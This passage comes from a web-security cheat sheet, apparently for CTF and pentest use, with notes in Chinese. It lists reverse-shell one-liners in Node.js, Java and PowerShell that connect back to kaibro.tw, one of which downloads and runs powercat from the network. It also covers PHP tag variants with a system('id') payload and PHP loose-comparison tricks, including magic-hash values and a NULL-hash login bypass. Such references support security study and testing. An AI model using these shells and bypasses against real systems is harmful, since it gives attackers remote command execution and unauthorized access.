 - Node.js
    - `var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(5566, "kaibro.tw", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});`
    - `require('child_process').exec("bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'");`

- Java
    - `Runtime r = Runtime.getRuntime();Process p = r.exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/kaibro.tw/5278;cat <&5 | while read line; do $line 2>&5 >&5; done"});p.waitFor();`
    - `java.lang.Runtime.exec()` payload generator: http://www.jackson-t.ca/runtime-exec-payloads.html

- Powershell
    - `powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c kaibro.tw -p 5566 -e cmd`

# PHP Tag

- `<? ?>`
    - short_open_tag 決定是否可使用短標記
    - 或是編譯php時 --enable-short-tags
- `<?=`
    - 等價 <? echo
    - 自`PHP 5.4.0`起，always work!
- `<% %>`、`<%=`
    - 自`PHP 7.0.0`起，被移除
    - 須將`asp_tags`設成On
- `<script language="php"`
    - 自`PHP 7.0.0`起，被移除
    - `<script language="php">system("id"); </script>`



# PHP Weak Type

- `var_dump('0xABCdef'       == '     0xABCdef');`
    * true           (Output for hhvm-3.18.5 - 3.22.0, 7.0.0 - 7.2.0rc4: false)

- `var_dump('0010e2'         == '1e3’);`
    - true
- `strcmp([],[])`
    - 0
- `sha1([])`
    - NULL
- `'123' == 123`
- `'abc' == 0`
- `'123a' == 123`
- `'0x01' == 1`
    - PHP 7.0 後，16 進位字串不再當成數字
    - e.g `var_dump('0x01' == 1)` => false
- `'' == 0 == false == NULL`
- `md5([1,2,3]) == md5([4,5,6]) == NULL`
    - 可用在登入繞過 (用戶不存在，則 password 為 NULL)
- `var_dump(md5(240610708));`
    - 0e462097431906509019562988736854
- `var_dump(sha1(10932435112));`
    - 0e07766915004133176347055865026311692244
- `$a="123"; $b="456"`
    - `$a + $b == "579";`
    - `$a . $b == "123456"`

